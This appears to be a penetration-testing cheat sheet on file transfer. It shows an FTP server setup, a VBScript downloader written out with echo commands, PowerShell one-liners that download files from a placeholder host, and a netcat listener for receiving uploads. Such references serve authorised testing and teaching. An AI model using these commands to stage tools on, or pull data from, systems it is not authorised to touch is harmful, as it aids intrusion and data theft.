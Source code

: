 #### Setup FTP server
```
python -m pyftpdlib 21
```

#### Connect to ftp server
```
ftp <IP>
```

#### VBS download files for Windows XP
Create vbs script
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

Run VBS script to download file
```
cscript wget.vbs http://<IP>/<FILE> <FILE>
```

#### Powershell download file
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/<FILE>', '<FILE>')
```
```
powershell -c "Invoke-WebRequest -Uri 'http://<IP>/<FILE>' -OutFile 'C:\Windows\Temp\<FILE>'"
```

### Upload files
#### Netcat listener for file
```
nc -nlvp <PORT> > <FILE>
```
